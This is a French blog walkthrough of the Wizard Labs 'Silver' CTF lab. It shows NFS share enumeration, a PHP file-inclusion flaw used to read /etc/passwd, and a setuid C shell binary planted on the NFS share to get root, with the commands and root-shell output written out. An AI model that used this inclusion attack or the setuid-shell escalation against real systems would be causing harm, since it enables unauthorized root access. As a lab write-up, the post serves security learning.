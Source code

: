 ```yaml
---
title: Solution du CTF Silver de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Bronze
------

*Silver* est un CTF de Wizard Labs annoncé avec une difficulté de 4/10.  

Premier élément qui fait tilter tout habitué des CTFs : la présence d'un partage NFS sur la machine :  

```plain
$ showmount -a 10.1.1.36
All mount points on 10.1.1.36:
10.28.12.6:/home/silver/nfs
```

On monte ce partage avec la commande *sudo mount 10.1.1.36:/home/silver/nfs /mnt/* mais il est vide.  

On se doute toutefois qu'on aura à y placer un binaire setuid plus tard :p   

Sur le site web de la box, [Wapiti](http://wapiti.sourceforge.net/) trouve différentes failles dans le paramètre *language* d'une même page (c'est la même faille mais découverte par trois biais différents) :  

* Divulgation de fichier si la valeur est */etc/passwd*
* Exécution de commande via un wrapper PHP (voir capture d'écran plus loin)
* Timeout si la valeur est *http://www.google.com/*

![Wizard Labs CTF Silver include() vulnerability Wapiti report](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/silver_rce.png)

Autant dire qu'on a affaire à une faille d'inclusion PHP et que l'inclusion distante est activée.  

L'exploitation de cette vulnérabilité peut avoir bien des scénarios différents mais en fait si on lit */etc/passwd* on remarque une ligne explicite à la fin du fichier :  

> ssh password for silver: i'msilver

Gold
----

On obtient donc l'accès sur cette machine 32bits. On écrit le code suivant que l'on compilera avec *-m32* :  

```c
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        system("/bin/bash");
        return 0;
}
```

On le copie ensuite sur le partage NFS avec les droits root + setuid et c'est finit :  

```plain
silver@silver:~/nfs$ ls -l
total 652
-rwsr-xr-x 1 root root 664956 Feb 23 06:37 devloop
silver@silver:~/nfs$ ./devloop
root@silver:~/nfs# id
uid=0(root) gid=1000(silver) groups=1000(silver),4(adm),24(cdrom),30(dip),46(plugdev),109(lpadmin),125(sambashare)
root@silver:~/nfs# cd /root/
root@silver:/root# cat root.txt
3f3d93725cebd44cf7bb1fb327e8a0b1
```


*Published November 17 2020 at 14:08*
